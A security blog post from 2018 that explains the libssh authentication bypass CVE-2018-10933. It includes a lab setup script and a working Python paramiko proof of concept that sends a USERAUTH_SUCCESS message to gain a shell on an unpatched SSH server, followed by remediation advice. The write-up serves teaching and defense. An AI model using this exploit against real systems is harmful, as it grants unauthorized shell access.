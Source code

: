 +++ 
draft = false
date = 2018-10-22T18:28:33+01:00
title = "Exploiting a NodeJS SSH Server with CVE-2018-10933"
slug = "Exploit-CVE-2018-10933-NodeJS" 
tags = ["CVE-2018-10933","CVE2018-10933","NodeJS","Node"]
categories = ["CVE","Node","NodeJS",""]
thumbnail = "/images/userauthsuccess_banner.png"
description = "Exploiting a NodeJS SSH server with CVE-2018-10933"
+++

This a vulnerability in <b>'libssh'</b> before versions <b>0.7.6</b> and <b>0.8.4</b> which allows an attacker to circumvent SSH authentication. The public advisory issued by 'libssh' can be found [here](https://www.libssh.org/2018/10/16/libssh-0-8-4-and-0-7-6-security-and-bugfix-release/). In the recent week <b>CVE-2018-10933</b> created a great deal of excitement online.  

The full range of vulnerable products using libssh was still unclear when writing, however as a proof of concept the vulnerable and deprecated [NodeJS SSH server](https://www.npmjs.com/package/ssh) will be used in this blog. 

The Vulnerability
----
<b>Vulnerable Software:</b> libssh <0.7.6 and libssh <0.8.4

The vulnerability is quite simple conceptually. A server using the above versions of 'libssh' expect a <b>'SSH2_MSG_USERAUTH_REQUEST'</b> message during authentication. 

This bug occurs when we supply a message of <b>'SSH2_MSG_USERAUTH_SUCCESS'</b> in place of the above, after which the server will grant us access without requiring any credentials.

![xkcd](/images/sandwich.jpg)

Surprisingly, no one has dubbed this issue 'Open Sesame'.



Lab Setup
----

[npm](https://docs.npmjs.com/getting-started/what-is-npm), the package manager for NodeJS is kind enough of containing a vulnerable SSH library which uses the affected libraries.  This Lab will be setup in a [scotch-box](https://github.com/scotch-io/scotch-box) vagrant image.

This package can be installed by using a provisioning script such as the following (this should also work on any Debian base with Node+npm installed):

```shell
#!/bin/bash

echo 'Installing n'
npm cache clean -f
npm install -g n

echo 'Installing Node 0.12.18'
n 0.12.18

echo 'Installing node-libssh'
npm i ssh

#Make our dummy code listen on all interfaces
sed -i.bak 's/127.0.0.1/0.0.0.0/g' /home/vagrant/node_modules/ssh/examples/ stdiopipe.js 
```


As part of our new install we already have a dummy SSH server we can execute. 

The 'stdiopipe.js' file contains a sample NodeJS SSH server, which will reply with a banner on succesfull authentication and spawning of a shell.  Here we can see how to run the server:

![libssh server](/images/libsshd.png)

A succesful banner after authenticating with the appropriate credentials:

![nodejs ssh banner](/images/ssh_banner.png)

A permission denied message if we fail to authenticate:

![access denied](/images/ssh_banner_unauth.png)

That is all we need for our lab setup.

The Exploit
----
To exploit this issue we will perform the following actions using the 'paramiko' python library:

1. Connect to the server (in this case 192.168.33.10 on port 3333)
2. Send the 'SSH2_MSG_USERAUTH_SUCCESS' message to bypass authentication
3. Invoke a shell in the established SSH channel
4. Receive the banner sent when successfully authenticated with a shell to prove access.

```python
#!/usr/bin/env python

import socket
import paramiko
from paramiko import *

hostname="192.168.33.10"
port="3333"

try:
    sock = socket.create_connection((hostname, port))
    message = paramiko.message.Message()
    transport = paramiko.transport.Transport(sock)

    print "Attempting to start SSH client."
    transport.start_client()

    print "Sending USERAUTH_SUCCESS message."
    message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
    transport._send_message(message)

    print "Attempting to open an SSH session."
    channel = transport.open_session()

    print "Attempting to invoke a shell."
    channel.invoke_shell()

    print "Retrieving banner from successful shell invocation"
    print "Banner: ", channel.recv(100)
except Exception as e:
    print('SSH Exception: {}'.format(e))
    exit(1)
```

We will successfully achieve the authentication bypass and retrieve the banner, as shown below:

![libssh exploit](/images/libsshd_exploit.png)

Remediation
----
'libssh' is a vulnerable component, rather than a vulnerable standalone piece of software in itself.  As such, identification of software using vulnerable versions of 'libssh' should be prioritised and updated to the fixed versions.

I've never come across someone who required NodeJS to deploy an SSH server, however if you are one of ***those people*** downloading and using the deprecated npm 'ssh' library, you should migrate to an up to date and supported package which will provide greater confidence in the authentication supplied.

